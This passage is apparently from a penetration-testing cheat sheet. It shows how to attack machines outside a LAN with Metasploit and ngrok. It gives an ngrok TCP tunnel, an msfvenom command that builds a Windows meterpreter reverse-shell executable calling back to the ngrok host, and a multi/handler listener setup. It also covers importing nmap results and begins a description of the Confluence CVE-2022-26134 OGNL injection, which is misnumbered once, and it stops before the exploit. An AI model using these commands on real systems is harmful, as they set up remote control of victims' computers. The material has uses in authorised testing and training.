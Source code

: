 Attack outside of the LAN with ngrok:

First step, set up a free account in ngrok then start ngrok:

```
./ngrok tcp 9999

# Forwarding tcp://0.tcp.ngrok.io:19631 -> localhost:9999
```

Create malicious payload:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=0.tcp.ngrok.io LPORT=19631 -f exe > payload.exe
```

Start listener:

```
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST 0.0.0.0 set 
LPORT 9999 
exploit
```

Ingest Other Tools' Output Files:

```
# Start database
$ sudo systemctl start postgresql

# Initialize Metasploit database
$ sudo msfdb init

# Start msfconsole
$ msfconsole -q
msf6 >

# Help menu
msf6 > db_import -h

# Import other tool's output
msf6 > db_import ~/nmap_scan.xml

[*] Importing NMAP XML data
[*] Successfully imported  /home/kali/nmap_scan.xml
```

# Confluence CVE-2022-26134

CVE-2022-26314 is an unauthenticated and remote OGNL injection vulnerability resulting in code execution in the context of the Confluence server (typically the confluence user on Linux installations). Given the nature of the vulnerability, internet-facing Confluence servers are at very high risk.

As stated, the vulnerability is an OGNL injection vulnerability affecting the HTTP server. The OGNL payload is placed in the URI of an HTTP request. Any type of HTTP method appears to work, whether valid (GET, POST, PUT, etc) or invalid (e.g. “BALH”). In its simplest form, an exploit abusing the vulnerability looks like this:
